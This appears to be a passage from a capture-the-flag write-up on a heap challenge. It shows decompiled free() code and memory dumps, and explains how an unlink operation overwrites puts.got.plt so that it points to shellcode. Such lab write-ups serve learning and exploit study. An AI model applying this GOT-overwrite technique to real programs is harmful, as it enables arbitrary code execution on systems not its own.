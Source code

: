 Then, we need to use `unlink` to make puts.got.plt point to the address where we put shellcode. Take a look at the `free` code.

- buf - address where chunk stores data
- size_adr - address where chunk stores size
- buf_bk - bk of current_freed_chunk
- buf_fd - fd of current_freed_chunk
- qword_6020B0 - a list which stores address of message

```
# list struct
0x6020b0:      0x0000000000603000      0x0000000000000000           # Head  | Nothing
0x6020c0:      0x0000000000603030      0x0000000000603060           # First | Second
```

```c
size_adr = buf-24;
buf_bk = *(_QWORD *)(buf-24+16);
buf_fd = *(_QWORD *)(buf-24+8);
if (buf_bk)
    *(_QWORD *)(buf_bk+8) = buf_fd;                         // make buf_bk->fd = current_freed_chunk->fd
if (buf_fd)
    *(_QWORD *)(buf_fd+16) = buf_bk;                        // make buf_fd->bk = current_freed_chunk->bk
*(_QWORD *)(size_adr+8) = *(_QWORD *)(qword_6020B0+8)       // make current_freed_chunk->fd = first message  
if (*(_QWORD *)(qword_6020B0+8))
    *(_QWORD *)(*(_QWORD *)(qword_6020B0+8)+16) = size_adr; // make first message->bk = current_freed_chunk
*(_QWORD *)(qword_6020B0+8) = size_adr;                     // make Head->fd = current_freed_chunk
*(_QWORD *)size_adr &= 0xFFFFFFFFFFFFFFFE;                  // clear inuse bit
```

Use `buf_bk->fd = current_freed_chunk->fd` to overwrite puts.got.plt. Make `buf_bk` = `puts.got.plt-8` and `buf_fd` = `address of shellcode`. And since `buf_bk->fd` will be `puts_got.plt`, `puts.got.plt` will point to `address of shellcode` after the `unlink` operation.

Here we need to use `change` to overwrite struct of second message first. Then free the second message.

```
0x603000:      0x0000000000000018      0x0000000000603018           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603000
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000031           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000000000
0x6030c0:      shellcode
```
